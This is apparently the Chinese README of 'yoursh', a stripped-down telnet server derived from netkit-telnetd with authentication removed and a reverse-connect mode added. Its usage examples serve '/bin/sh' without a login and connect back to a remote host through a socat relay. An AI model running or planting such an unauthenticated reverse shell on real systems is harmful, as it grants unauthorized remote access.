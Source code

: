 Your Shell
==========
从 netkit-telnetd 项目简化出的一个精简telnet服务端，身份认证等功能已经从源码中移除，并额外添加了反弹链接功能

# 使用方法

	yoursh [-l port | -r host:port] [-L program] [-n] [-h]
	-l port     Bind the <port> and listen, default port 80. (default option)
	-r          Reverse connect to the <port> of speciafied <host>, it is essential to make port forwarding.
	-L program  Login program, default '/bin/sh'.
	-n          Keep connection alive.
	-h          Help

# 构建

使用 `make` 命令构建

# 用例

	$ yoursh -l 10023 -n
	## 监听 10023 端口并开启续命

	$ yoursh -r 123.123.123.123:9998 
	## 运行 `socat tcp4-listen:9998 tcp4-listen:9999` 在主机 123.123.123.123, 
	## 9999端口是 telnet 服务端接入端口


